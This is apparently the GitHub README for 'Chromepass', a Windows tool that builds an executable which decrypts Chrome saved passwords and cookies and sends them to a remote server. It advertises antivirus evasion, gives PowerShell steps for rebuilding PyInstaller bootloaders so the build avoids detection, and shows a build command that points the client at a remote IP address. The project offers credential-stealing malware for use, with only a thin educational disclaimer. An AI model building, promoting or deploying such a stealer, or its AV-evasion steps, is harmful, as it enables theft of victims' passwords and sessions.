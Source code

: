 <h1 align='center'>Chromepass - Hacking Chrome Saved Passwords and Cookies</h1>
<p align="center">	
    <img src="https://img.shields.io/badge/Platform-Windows-green" />
	<a href="https://github.com/darkarp/chromepass/releases/latest">
	<img src="https://img.shields.io/github/v/release/darkarp/chromepass" alt="Release" />
	</a>
  <a href="https://travis-ci.org/darkarp/chrome-password-hacking">
    <img src="https://img.shields.io/badge/build-passing-green" alt="Build Status on CircleCI" />
	</a>
    <img src="https://img.shields.io/maintenance/yes/2021" />
	</br>
  
  <a href="https://github.com/darkarp/chromepass/commits/master">
    <img src="https://img.shields.io/github/last-commit/darkarp/chromepass" />
  </a>
  <img alt="Scrutinizer code quality (GitHub/Bitbucket)" src="https://img.shields.io/scrutinizer/quality/g/darkarp/chromepass?style=flat">
  <a href="https://github.com/darkarp/chromepass/blob/master/LICENSE">
    <img src="http://img.shields.io/github/license/darkarp/chromepass" />
  </a>
  </br>
  <a href="https://github.com/darkarp/chromepass/issues?q=is%3Aopen+is%3Aissue">
	<img alt="GitHub issues" src="https://img.shields.io/github/issues/darkarp/chromepass">
</a
<a href="https://github.com/darkarp/chromepass/issues?q=is%3Aissue+is%3Aclosed">
	<img alt="GitHub closed issues" src="https://img.shields.io/github/issues-closed/darkarp/chromepass">
</a>
</br>
  <a href="https://discord.gg/beczNYP">
    <img src="https://img.shields.io/badge/discord-join-7289DA.svg?logo=discord&longCache=true&style=flat" />
  </a>
  </br>
  <a href="https://i.imgur.com/2nW56cP.gif" target="_blank">View Demo</a>
    ·
    <a href="https://github.com/darkarp/chromepass/issues/new?assignees=&labels=&template=bug_report.md&title=">Report Bug</a>
    ·
    <a href="https://github.com/darkarp/chromepass/issues/new?assignees=&labels=&template=feature_request.md&title=">Request Feature</a>
  </p>  
  
  
<!-- TABLE OF CONTENTS -->
## Table of Contents

* [About the Project](#about-the-project)  
	* [AV Detection](#av-detection)
* [Getting started](#getting-started)
  * [Prerequisites](#dependencies-and-requirements)
  * [Installation](#installation)
* [Usage](#usage)
* [Todo](#todo)
* [Errors, Bugs and Feature Requests](#errors-bugs-and-feature-requests)
* [Learn More](#learn-more)
* [License](#license)
---
## About The project
Chromepass is a python-based console application that generates a windows executable with the following features:

  - Decrypt Chrome saved paswords
  - Send a file with the login/password combinations remotely (http server)
  - Undetectable by AV if done correctly
  - Custom icon
  - Custom error message

---

### AV Detection!
This can be undetected with a very easy step detailed below. The reason why it's detected is because many AVs get tripped by the popular signatures of pyinstaller. To mitigate this, you can build the bootloaders manually. You can do this on a clean VM if you wish:
 - Go through the [Installation](#installation) first
 - Open an administrator powershell
 - Run the following code and wait for it to finish, it might take a while: 
```powershell
Set-ExecutionPolicy remotesigned -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://chocolatey.org/install.ps1')); choco install -y python vcbuildtools git
```
 - Close the powershell window and open a new one (doesn't require administrator)
 - Go into the chromepass directory, if you're not in it already.
 - Run the following code: 
  ```powershell
     git clone https://github.com/pyinstaller/pyinstaller.git
     pip uninstall pyinstaller -y
     cd pyinstaller/bootloader
     python waf all
     cd ..
     pip install .
  ```
 - Now you can follow the [Usage](#usage) normally and your executable is no longer detected by most AVs. There are some additional things you can do to make it completely undetectable. I'll leave you to discover what some of those things are.  
 ---
## Getting started

### Dependencies and Requirements

This is a very simple application, which uses only:

* [Python] - Tested on python 3.6+

### Installation

Chromepass requires Windows to run! Support for linux and MacOS may be added soon

Clone the repository:
```powershell
git clone https://github.com/darkarp/chromepass
```

Install the dependencies:

```powershell
cd chromepass
pip install -r requirements.txt
```

If any errors occur make sure you're running on the proper environment (if applcable) and that you have python 3.6+
If the errors persist, try:
```powershell
python -m pip install --upgrade pip
python -m pip install -r requirements.txt
```  

## Usage

Chromepass is very straightforward. Start by running:
```powershell
> python create.py -h
```
A list of options will appear and are self explanatory.

Running without any parameters will build the server and the client connecting to `127.0.0.1`. 

A simple example of a build:
```powershell
python create.py --ip 92.34.11.220 --error --message "An Error has happened"
```

After creating the server and the client, make sure you're running the server when the client is ran.

The cookies and passwords will be saves in `json` files on a new folder called `data` in the same directory as the server, separated by ip address.

If you'd like additional notes on evading AV, refer to [AV Detection](#av-detection)  

---
 
## Errors, Bugs and feature requests

If you find an error or a bug, please report it as an issue.
If you wish to suggest a feature or an improvement please report it in the issue pages.

Please follow the templates shown when creating the issue.  

---

## Learn More

For access to a community full of aspiring computer security experts, ranging from the complete beginner to the seasoned veteran,
join our Discord Server: [WhiteHat Hacking](https://discord.gg/beczNYP)

If you wish to contact me, you can do so via: `mario@whitehathacking.tech` 

---

## Disclaimer
I am not responsible for what you do with the information and code provided. This is intended for professional or educational purposes only.

## License
<a href="https://github.com/darkarp/chromepass/blob/master/LICENSE"> MIT </a>
   
[Python]: <https://www.python.org/downloads/>
